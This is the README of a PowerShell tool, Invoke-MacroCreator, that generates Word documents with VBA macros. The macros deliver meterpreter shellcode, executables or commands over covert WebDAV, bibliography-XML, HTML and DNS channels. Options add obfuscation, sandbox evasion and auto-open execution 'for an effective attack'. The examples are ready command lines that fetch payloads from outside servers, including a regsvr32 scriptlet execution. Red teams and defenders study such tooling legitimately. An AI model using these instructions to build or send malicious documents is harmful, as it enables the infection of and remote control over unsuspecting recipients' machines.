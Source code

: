 Macro Creator
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

Invoke-MacroCreator is a powershell Cmdlet that allows for the creation of an MS-Word document embedding a VBA macro with various payload delivery and execution capabilities.

Description
-----------------
Basically the script supports three **types** of payload that you MUST specify using the `-t` argument:
  1. `shellcode`: any raw shellcode (*for instance created with msfvenom*). The shellcode is loaded into memory then loaded into the MS-Word process space and executed.
  2. `file`: any type of file (*executable, script, whatever...*). The file is first saved to a local temporary directory then called thanks to a command line specified as an argument.
  3. `command`: any command line to be executed

In either case, the payload itself must be a file (*even a `command` type payload should be in a file*). The file is specified using the `-i` argument.

Those payloads can be delivered through several **delivery** methods that you MUST specify using the `-d` argument:
  1. `body`: the payload is embedded into the body of the MS-Word document in an encoded form. This comes with a limit in terms of size of file that can be embedded.
  2. `comment`: the payload is embedded into the comment of the MS-Word document in a base64 encoded form. This technique is inspired by Invoke-Commentator.
  3. `webdav`: the payload is downloaded over a specific **WebDAV covert channel** (*PROPFIND only*) and requires a tool at the server side counter part: [WebDavDelivery](https://github.com/Arno0x/WebDavDelivery). The process seen performing network traffic is 'svchost.exe'.
  4. `biblio`: aka "Bibliograpy sources". The payload is embedded in a bibliography sources XML file and then loaded over HTTP(S). The generated 'sources.xml' file must be hosted on a web server.	The process seen performing network traffic is 'word.exe'.
  5. `html` (*using IE*): the payload is embedded into a simple HTML file and then downloaded over HTTP(S) from an Internet Explorer COM object. The generated 'index.html' file must be hosted on a web server. The process seen performing network traffic is 'iexplorer.exe'
  5. `dns` : the payload is downloaded over a DNS request covert channel, in several chunks that are reassembled in memory. It is required to own a domain name and to use the [DNSDelivery](https://github.com/Arno0x/DNSDelivery) tool. **When using DNSDelivery with Invoke-MacroCreator, the type of payload to deliver doesn't matter as it is not consummed by the macro. In other words: set it to whatever you want.**

If the payload type is a `file`, use the `-c` option to define how the file should be called or executed.

If the delivery method is `webdav`, `biblio` or `html`, you can set the UNC/URL to use with the `-url` option. If you don't set this UNC/URL, the default parameters defined in the script's global variables section are used.

If the delivery method is `dns`, use the `-dn` option to set the domain name to be used. If you don't set this domain name, the default one defined in the script's global variables section is used.

When a command is to be executed (*`file` or `cmd` payload*), three different execution methods are available that can be choosen using the `-m` switch.
	
[*Optionnal*] Using the optionnal `-o` switch, some level of obfuscation is applied on parts of the macro. Obfuscation is applied on:
  1. Variable names (in the template files, all variable surrounded by '_'. ex: `_varName_`)
  2. Function names (in the template files, all functions surrounded by '#'. ex: `#FunctionName#`)
  3. All string parameters (in the template files, all strings surrounded by '-'. ex: `-"any string"-`)
	
[*Optionnal*] Using the optionnal `-e` switch, some sandbox evasion technique can also be included. If a sandbox is being detected, the payload is not executed and the macro stops.

[*Optionnal*] Using the optionnal `-a` switch, auto open functions are added so that the macro is executed automatically when the document is opened. This is what you want for an "effective" attack, but probably not for testing/debugging purposes.


Dependencies
-----------------
Invoke-MacroCreator requires a proper installation of Microsoft Word.


Examples
-----------------
Here are some sample examples:
  
Shellcode embedded in the body of the MS-Word document, no obfuscation, no sandbox evasion:

`C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -d body`
  
Shellcode delivered over WebDAV covert channel, with obfuscation, no sandbox evasion:

`C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -url webdavserver.com -d webdav -o`
  
Scriptlet delivered over bibliography source covert channel, with obfuscation, with sandbox evasion:

`C:\PS> Invoke-MacroCreator -i regsvr32.sct -t file -url 'http://my.server.com/sources.xml' -d biblio -c 'regsvr32 /u /n /s /i:regsvr32.sct scrobj.dll' -o -e`
  
Executable delivered over WebDAV covert channel, using default UNC, no obfuscation, with sandbox evasion, using execution method 3:

`C:\PS> Invoke-MacroCreator -i badass.exe -p file -t webdav -c 'badass.exe' -e -m 3`
  
Command line embedded in the body of the MS-Word document, with obfuscation, no sandbox evasion, using execution method 1:

`C:\PS> Invoke-MacroCreator -i my_cmd.bat -p cmd -t body -o -m 1`
  
Shellcode embedded in a comment of the MS-Word document, no obfuscation, no sandbox evasion, adding auto-open functions:

`C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -d comment -a`

Shellcode delivered over the DNS delivery covert channel using domain "mydomain.com", with obfuscation, no sandbox evasion:

`C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -d dns -dn mydomain.com -o`
